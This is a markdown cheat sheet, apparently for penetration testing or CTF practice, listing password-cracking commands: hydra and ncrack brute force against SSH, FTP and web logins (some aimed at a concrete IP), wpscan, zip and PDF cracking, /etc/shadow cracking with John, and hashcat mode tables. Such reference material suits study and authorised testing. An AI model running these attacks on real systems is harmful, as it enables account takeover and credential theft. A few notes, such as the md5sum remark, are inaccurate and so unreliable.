 # Password cracking
> Credits to the SCSP Community.

### Cracking SSH Password

```bash
hydra -L <username list> -P <password list> 10.10.10.10 ssh
ncrack -U <usernames list> -P <passwords list> ssh://10.10.10.10
```

### Cracking FTP Passwords

```bash
hydra -L <username list> -P <password list> 10.10.10.10 ftp
ncrack -U <usernames list> -P <passwords list> ftp://10.10.10.10
```

### Cracking Passwords when Service uses non-standard port

```bash
hydra -L <username list> -P <password list> -s <port> 10.10.10.10 ssh
ncrack -U <usernames list> -P <passwords list> 10.10.10.10:<port>
```

### Cracking Password Protected PDF files

```bash
pdfcrack -f <pdf file> -w <wordlist>
```

### Cracking Web-Application Password

* In Get Request

```bash
hydra -L <usernames list> -P <passwords list> <target ip> http-get <path to admin panel>
```

* In Post Request

```bash
hydra -L <usernames list> -P <passwords list> <target ip> http-form-post '<post request data, specify parameters with ^USER^ and ^PWD^>'
```

### Crack Wordpress Passwords

```bash
wpscan --url <target ip/wp-login> -U <usernames list> -P <path to wordlist>
```

### Brute force login form

```bash
hydra -L rockyou.txt -p idk -t 20 35.227.24.107 http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
hydra -l sandy -P rockyou.txt -t 64 35.227.24.107 http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"
```

### Brute force zip file

```bash
fcrackzip -D -p <WORDLIST> -v <ZIP_FILE>
fcrackzip -v -u -D -p <WORDLIST> <ZIP_FILE>
```

```text
zip2john zipfile > ziphash.john
john ziphash.john --wordlist=wordlist.txt
```

### Crack /etc/shadow

```bash
unshadow passwd.txt shadow.txt > passwords.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

### Identifying Hash Types

```bash
hashid <file containing hashes>
hashid -m <file containing hashes>      ### Shows hashcat mode
hashid -j <file containing hashes>      ### Shows john format
```

### Converting encrypted files into a format supported by John

```bash
unshadow etc_passwd_file etc_shadow_file | tee unshadowed_file

ssh2john.py encrypted_SSH_key_file | tee SSH_key.john

keepass2john kdb_file | tee keepass_hash.john

rar2john encrypted_rar_file | tee rar_file_hash.john

7z2john encrypted_7z_file | tee 7z_file_hash.john
```

### Cracking Hashes using John the Ripper

```bash
john --list=formats     ### outputs all supported formats
john <hash file> --wordlist=<path to wordlist>
john <hash file> --show (shows cracked hashes)
john <hash file> --wordlist=<path to wordlist> --format=<hash format>
john <hash file> --incremental      ### uses ASCII incremental mode
john <hash file> --incremental=digits       # uses digit incremental (mode: 0 to 99999999999999999999)
```

### Cracking Hashes using HashCat

```bash
hashcat -m <hash type mode> -a <attack mode> <hash file> <path to wordlist>
```

### HashCat Attack Modes \(-a\)

| mode | attack      |
|:---- |:----------- |
| 0    | Straight    |
| 1    | Combination |
| 3    | Brute-force |

### HashCat Hash Types \(-m\)

* Linux OS hashes

| type | hash             |
|:---- |:---------------- |
| 500  | MD5 \($1$\)      | 
| 3200 | Blowfish \($2$\) |
| 7400 | SHA256 \($5$\)   |
| 1800 | SHA512 \($6$\)   |

* Windows OS hashes

| type | hash |
|:---- |:---- |
| 1000 | NTLM |
| 3000 | LM   |

* MacOS hashes

| type | hash                  |
|:---- |:--------------------- |
| 122  | MacOS v10.4,10.5,10.6 |
| 1722 | MacOS v10.7           |
| 7100 | MacOS v10.8+          |

* Application hashes

| type  | hash     |
|:----- |:-------- |
| 900   | MD4      |
| 0     | MD5      |
| 100   | SHA1     |
| 1400  | SHA2-256 |
| 1700  | SHA2-512 |
| 17400 | SHA3-256 |
| 17600 | SHA3-512 |

* Network Protocol Hashes

| type  | hash                    |
|:----- |:----------------------- |
| 7500  | Kerberos 5              |
| 10200 | CRAM-MD5                |
| 11100 | PostgreSQL CRAM \(MD5\) |
| 11200 | MySQL CRAM \(SHA1\)     |
| 16500 | JSON Web Token          |

* Salted Hashes

| type | hash                     |
| :--- | :----------------------- |
| 10   | MD5 \(\$pass.\$salt\)    |
| 20   | MD5 \(\$salt.\$pass\)    |
| 110  | SHA1 \(\$pass.\$salt\)   |
| 1410 | SHA256 \(\$pass.\$salt\) |
| 1420 | SHA256 \(\$salt.\$pass\) |
| 1710 | SHA512 \(\$pass.\$salt\) |
| 1720 | SHA512 \(\$salt.\$pass\) |

```php
hashcat -m 1710 -a 0 "<PASS>:<SALT>" --wordlist=/usr/share/wordlists/rockyou.txt
```

- May need to add `--force`
- `hashcat --show` (try adding all of this to one command)
- Untested... 

---

### Md5sum

Encode
```php
echo -n '0' | md5sum 
```

- If you don't add `-n` it will include the 0 in the md5 hash

### Base64

Decode
```php
echo '<b64>' | base64 -d
```